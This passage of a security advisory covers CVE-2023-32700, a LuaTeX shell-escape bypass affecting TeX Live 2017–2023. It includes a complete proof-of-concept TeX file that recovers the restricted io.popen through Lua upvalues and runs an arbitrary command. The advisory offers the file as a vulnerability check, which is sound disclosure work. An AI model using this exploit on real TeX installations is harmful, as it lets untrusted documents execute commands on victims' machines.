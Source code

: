 <p>This affects LuaTeX versions 1.04–1.16.1, which were included in TeX Live
2017–2022 as well as the original release of TeX Live 2023. This issue was fixed
in LuaTeX 1.17.0, and is distributed as an update to TeX Live 2023.</p>

<p>This issue has been assigned
<a href="https://www.cve.org/CVERecord?id=CVE-2023-32700">CVE-2023-32700</a>.
</p>

<h3 id="exploit-code">Exploit Code</h3>

<p>To see if you are vulnerable, you may use the below sample document:</p>

<h4 id="tex-file">TeX File</h4>

<pre><code><span class="token comment">% shell-escape-test.tex</span>
<span class="token function selector">\directlua</span><span class="token punctuation">{</span>
    <span class="token keyword">local</span> <span class="token keyword">function</span> <span class="token function">get_upvalue</span><span class="token punctuation">(</span>func<span class="token punctuation">,</span> name<span class="token punctuation">)</span>
        <span class="token keyword">local</span> nups <span class="token operator">=</span> debug<span class="token punctuation">.</span><span class="token function">getinfo</span><span class="token punctuation">(</span>func<span class="token punctuation">)</span><span class="token punctuation">.</span>nups

        <span class="token keyword">for</span> i <span class="token operator">=</span> <span class="token number">1</span><span class="token punctuation">,</span> nups <span class="token keyword">do</span>
            <span class="token keyword">local</span> current<span class="token punctuation">,</span> value <span class="token operator">=</span> debug<span class="token punctuation">.</span><span class="token function">getupvalue</span><span class="token punctuation">(</span>func<span class="token punctuation">,</span> i<span class="token punctuation">)</span>
            <span class="token keyword">if</span> current <span class="token operator">==</span> name <span class="token keyword">then</span>
                <span class="token keyword">return</span> value
            <span class="token keyword">end</span>
        <span class="token keyword">end</span>
    <span class="token keyword">end</span>

    <span class="token keyword">local</span> outer <span class="token operator">=</span> <span class="token function">get_upvalue</span><span class="token punctuation">(</span>io<span class="token punctuation">.</span>popen<span class="token punctuation">,</span> <span class="token string">"popen"</span><span class="token punctuation">)</span>
    <span class="token keyword">local</span> popen <span class="token operator">=</span> <span class="token function">get_upvalue</span><span class="token punctuation">(</span>outer <span class="token keyword">or</span> io<span class="token punctuation">.</span>popen<span class="token punctuation">,</span> <span class="token string">"io_popen"</span><span class="token punctuation">)</span>

    <span class="token function">print</span><span class="token punctuation">(</span><span class="token function">popen</span><span class="token punctuation">(</span>arg<span class="token punctuation">[</span><span class="token function">rawlen</span><span class="token punctuation">(</span>arg<span class="token punctuation">)</span><span class="token punctuation">]</span><span class="token punctuation">)</span><span class="token punctuation">:</span><span class="token function">read</span><span class="token punctuation">(</span><span class="token string">"*a"</span><span class="token punctuation">)</span><span class="token punctuation">)</span>
<span class="token punctuation">}</span>
<span class="token function selector">\csname</span>@@end<span class="token function selector">\endcsname</span>
<span class="token function selector">\end</span>
</code></pre>
